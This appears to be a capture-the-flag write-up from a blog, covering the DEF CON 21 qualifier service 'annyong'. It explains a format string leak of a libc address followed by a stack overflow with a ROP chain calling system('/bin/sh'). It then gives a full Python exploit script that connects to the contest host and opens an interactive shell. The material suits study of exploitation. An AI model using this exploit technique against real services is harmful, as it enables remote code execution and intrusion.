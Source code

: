 ```yaml
---
title: Defcon 21 Quals annyong writeup
author: kelwin
layout: post
permalink: /defcon-21-quals-annyong-writeup/
categories:
  - Uncategorized
---
```

For the annyong service, PIE and ASLR are enabled. It&#8217;s easy to discover a format string vulnerability and a stack overflow vulnerability. By leveraging format string attack, libc address on the stack is leaked. Then we can calculate the `system`, `/bin/sh`, and `pop rdi; ret` gadget address in libc. Luckily we have same libc edition with the remote server and get the offsets correctly, or we could get the right libc address by using a brute-force attack in a small range. Then we got a shell by overwritten the stack.

Our code is as below:

    import struct, socket, telnetlib
    
    def p64(addr):
        return struct.pack("<Q", addr)
    
    def interact(s):
        t = telnetlib.Telnet()                                                  
        t.sock = s                                                              
        t.interact()
        s.close()
    
    def send_recv(s, buf):
        s.send(buf)
        return s.recv(4096)
    
    HOST = "annyong.shallweplayaga.me"
    PORT = 5679
    
    s = socket.socket()
    s.connect((HOST, PORT))
    
    r = send_recv(s, "%173$p\n")
    lib_ref = int(r, 16)
    
    system_l = 0x45660
    binsh_l = 0x1799d1
    poprdi = 0x229f2
    lib_h = 0x7ffff7a39ed8
    lib_b = 0x7ffff7a60660 - system_l
    lib_base = lib_ref - lib_h + lib_b
    
    system_r = lib_base + system_l
    binsh_r = lib_base + binsh_l
    poprdi = lib_base + poprdi
    
    payload = "A" * 0x810 + 'B' * 8 +  p64(poprdi) + p64(binsh_r) + p64(system_r)
    r = send_recv(s, payload + "\n")
    
    print "We got a shell:"
    interact(s)